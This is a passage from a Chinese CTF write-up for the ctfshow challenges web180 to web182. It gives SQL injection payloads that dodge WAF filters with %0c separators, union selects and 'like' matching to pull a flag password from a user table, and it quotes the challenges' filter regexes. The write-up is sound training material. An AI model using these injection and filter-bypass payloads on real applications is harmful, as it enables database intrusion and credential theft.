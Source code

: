 ```
1'union%0cselect'1',(select`password`from`ctfshow_user`where`username`='flag'),3%23
```

## web180

使用如下可以成功回显，但是没有 flag 值，可能过滤了注释符

```
99991'or'1'='1
```

答案

```
-1'or%0cusername%0clike'flag
```

```
-1'union%0cselect'1',(select`password`from`ctfshow_user`where`username`='flag'),'3
```

## web181

### 题目

题目有问题，x0c 还可以使用

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

### 答案

```
-1'or%0cusername%0clike'flag
```

```
id=-1'or(id=26)and'1'='1
```

```
id=-1'or(username='flag')and'1'='1
```

```
id=-1'or(username='flag')and'1
```

## web182

flag 被过滤了，可以试试模糊查询  like

```
//返回逻辑
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```
